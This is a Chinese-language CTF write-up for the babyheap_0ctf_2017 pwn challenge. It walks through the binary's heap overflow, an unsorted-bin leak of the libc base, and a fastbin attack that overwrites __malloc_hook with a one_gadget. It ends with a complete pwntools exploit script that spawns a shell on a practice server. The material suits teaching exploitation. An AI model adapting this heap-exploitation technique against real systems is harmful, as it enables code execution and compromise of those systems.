










# [CTF] babyheap_0ctf_2017 unsorted-bin-leak+fastbin-attack

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1813805
- 抓取时间: 2026-11-01T22:49:12

## 题目来源

babyheap_0ctf_2017

## 参考链接

- https://cloud.tencent.com/developer/article/1764339
- https://www.52pojie.cn/thread-1710060-1-1.html
- https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/#unsorted-bin-leak

## 题目信息

Ubuntu 16、64位、保护全开，无法修改got表，应该是需要泄漏libc地址，然后走shell



1.png (23.1 KB, 下载次数: 2) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU0NnxkYTI5MjMyY3wxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

提供了4个功能。



2.png (13.69 KB, 下载次数: 2) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU0N3xlYzBiNTM0M3wxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

`allocate`函数中`param_1`是堆结构的列表地址，但是不是固定的。堆的列表给每个堆分配了0x18个字节，前8个字节是1代表已经分配，中间8个字节保存堆的`size`，后面8个字节保存指针。

注意使用的是`calloc`，申请到的`chunk`会被`\x00`填充



3.png (57.08 KB, 下载次数: 2) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU0OHxhNTI0MjdhN3wxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

`fill`函数中没有判断用户输入的`size`是否会导致溢出，fastbin attack。



4.png (33.97 KB, 下载次数: 2) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU0OXw0MWMwZjNiNHwxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

`free`函数清理的很干净



5.png (34.13 KB, 下载次数: 2) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU1MXwyODFjMDEzNXwxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

`dump`函数将堆保存内容输出出来。



6.png (30.79 KB, 下载次数: 2) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU1MnwwNTI3YjE5NnwxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

堆块结构体地址不是写死的，而是函数生成的，麻烦有大佬可以解释一下含义。



7.png (75.98 KB, 下载次数: 3) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU1M3xiYjA2NmFhY3wxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

## 解题思路

- 根据保护措施的严密程度，我们只能去修改保存在bss段中的内容，很自然就想到了`__malloc_hook`和`__free_hook`，然后用fastbin attack的方式修改`hook`的值，但是在运行的时候发现`free_hook`前面没有常见的7f给我们使用（下图所示），所以就用`__malloc_hook`了。



8.png (57.44 KB, 下载次数: 2) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU1NHwyNDU5ZmE5NHwxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传



9.png (67.97 KB, 下载次数: 3) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU1NXxiY2MzNzc5NHwxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

- 题目中没有给出一个固定的结构体，也没给出含有`system`的函数，所以考虑使用`one_gadget`，同时别忘了`patchelf`调整程序的libc链接版本，否则调试的时候应该会遇到tcache（libc2.26版本之后新增角色=、=;题目使用的是ubuntu16，用的是libc2.23）



10.png (55.04 KB, 下载次数: 2) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjYzMDU1NnxmYjk2NWM1M3wxNzkzNTczMzQ5fDE2ODA4NnwxODEzODA1&nothumb=yes) 2023-7-27 10:42 上传

- 思路清楚了，那就是利用fastbin attack将`one_gadget`的值写入bss段中`__malloc_hook`中，最后申请新的chunk的时候就可以getshell了，具体原理目参考我的新人贴。

- 困难点在于如何得到`libc_base`，解决方法是Unsorted Bin Leak：https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/#unsorted-bin-leak。unsorted bin有一个特性，就是如果 unsorted bin中只有一个 bin ，它的 `fd` 和 `bk` 指针会指向同一个地址(unsorted bin链表的头部），这个地址为 `main_arena + 0x58` ，这就是为什么各种wp中会出现`main_arena + 88`的缘故 ，而且 `main_arena` 又相对 libc 固定偏移 0x3c4b20 （这里推荐这个工具[LibcOffset.py](https://github.com/Coldwave96/LibcOffset/blob/master/LibcOffset.py)），我们得到`fd`的值，然后再减去0x58再减去`main_arena`相对于libc的固定偏移，即得到libc的基地址。所以我们需要把 chunk 改成大于 fastbin 的大小，这样 free 后能进入 unsorted bin 让我们能够泄露 libc 基址。

## wp

```python
# -*- coding: utf-8 -*-
from pwn import*
context.log_level='debug'
context.arch='i386'
context.os = "linux"

pc = "babyheap_0ctf_2017"

if __name__ == '__main__':
    local = sys.argv[1]
    if local == '1':
        r= process(pc)
        elf = ELF(pc)
        libc = elf.libc
    else:
        r=remote("node4.buuoj.cn",29143)
        elf = ELF(pc)
        libc = elf.libc

sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def db():
    gdb.attach(r)
    pause()

def dbs(src):
    gdb.attach(r, src)

def allocate(size):
    sla("Command: ","1")
    sla("Size: ",str(size))

def fill(index,content):
    sla("Command: ","2")
    sla("Index: ",str(index))
    sla("Size: ",str(len(content)))
    sa("Content: ",content)

def free(index):
    sla("Command: ","3")
    sla("Index: ",str(index))

def dump(index): 
    sla("Command: ","4")
    sla("Index: ",str(index))

allocate(0x10)#0
allocate(0x10)#1
allocate(0x10)#2
allocate(0x10)#3
allocate(0x80)#4
free(2)
free(1)
payload = 0x10 * b'a' + p64(0) + p64(0x21) + p8(0x80)
fill(0,payload)
payload = 0x10 * b'a'+ p64(0) + p64(0x21)
fill(3,payload)
allocate(0x10)#1
allocate(0x10)#4
payload= 0x10 * b'a'+p64(0)+p64(0x91)
fill(3,payload)
allocate(0x80)#5
#db()
free(4)#此时fd与bk指向unsorted bin链表头
dump(2)
main_arena = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x58
libc_base=main_arena-0x3c4b20
lg('main_arena')
lg('libc_base')
gadget_addr = 0x4526a + libc_base
allocate(0x68)#4
free(4)
fakeHeap_addr = p64(libc.sym['__malloc_hook'] - 0x23 + libc_base)
fill(2,fakeHeap_addr) #直接写在fd位置处
allocate(0x68)#4
allocate(0x68)#6 fake_heap
#db()
payload = b'a'*0x13 + p64(gadget_addr)
fill(6,payload)
allocate(0x100)

ti()
```
